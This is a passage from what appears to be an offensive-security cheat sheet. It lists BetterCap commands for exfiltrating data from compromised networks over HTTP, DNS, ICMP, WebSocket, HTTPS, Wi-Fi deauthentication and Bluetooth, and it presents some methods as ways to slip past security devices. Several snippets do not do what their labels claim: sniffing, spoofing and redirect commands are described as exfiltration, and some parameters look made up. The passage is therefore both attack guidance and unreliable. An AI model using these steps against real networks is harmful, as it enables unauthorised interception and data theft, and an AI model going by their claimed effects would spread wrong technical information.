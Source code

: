     http.proxy on
    ```

#### Data Exfiltration

BetterCap can be effectively used for exfiltrating data from compromised systems or networks.

1. **Exfiltrating Data via HTTP**: Uses HTTP to exfiltrate data from the target to a remote server.
    ```bash
    set http.proxy.script exfiltrate.js
    http.proxy on
    ```
2. **DNS-based Data Exfiltration**: Exfiltrates data using DNS requests, which often bypasses network security devices.
    ```bash
    set dns.spoof.domains <exfiltration_domain>
    dns.spoof on
    ```
3. **Exfiltrating Wi-Fi Data via Deauth**: Captures and exfiltrates Wi-Fi data by forcing reconnections.
    ```bash
    wifi.deauth <target_bssid>
    set wifi.recon.output /tmp/wifi-data.pcap
    ```
4. **Covert Exfiltration via ICMP**: Exfiltrates data using ICMP echo requests, which can be difficult to detect.
    ```bash
    set icmp.redirect.target <target_ip>
    icmp.redirect on
    ```
5. **Using TCP/UDP for Large Data Transfers**: Exfiltrates large amounts of data using TCP or UDP, useful for transferring files.
    ```bash
    set net.sniff.filter tcp or udp
    net.sniff on
    ```
6. **Wi-Fi SSID and Probe Request Exfiltration**: Exfiltrates information about Wi-Fi SSIDs and probe requests from devices within range.
    ```bash
    wifi.probe on
    set wifi.probe.output /tmp/probe-requests.txt
    ```
7. **Data Exfiltration with WebSocket**: Uses WebSocket connections for exfiltrating data from compromised devices.
    ```bash
    set http.proxy.script websocket-exfil.js
    http.proxy on
    ```
8. **Bluetooth-based Data Exfiltration**: Exfiltrates data from Bluetooth Low Energy (BLE) devices.
    ```bash
    ble.recon on
    ble.recon.output /tmp/ble-data.txt
    ```
9. **Encrypted Data Exfiltration via HTTPS**: Exfiltrates data using HTTPS to ensure the data remains encrypted and undetected.
    ```bash
    set https.proxy on
    set https.proxy.script exfiltrate.js
    https.proxy on
    ```
